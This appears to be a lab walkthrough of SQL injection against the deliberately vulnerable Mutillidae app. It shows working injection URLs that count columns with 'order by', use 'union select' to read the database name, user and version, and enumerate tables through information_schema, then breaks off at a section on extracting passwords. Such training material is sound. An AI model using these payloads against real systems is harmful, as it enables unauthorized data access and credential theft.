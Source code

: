 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/9652a949-19ac-4cb9-9698-733bbccd3093)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/user-attachments/assets/ab58f46d-3369-4ccb-a3ac-4d8031dec192)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/user-attachments/assets/05ec7591-ab49-47da-a766-b8eb4c9fc9b5)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/user-attachments/assets/b065cff4-9ca9-4d25-a995-250c2a114333)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union
![image](https://github.com/user-attachments/assets/58b074e6-64cb-49f0-afd0-4403273e742b)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/user-attachments/assets/3ada5ff8-451a-47d1-918c-3f050412a589)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/28bb9041-6729-418f-ae5b-442565461341)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/a20508d4-9161-4857-afe9-9b91df6c37b1)

The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.
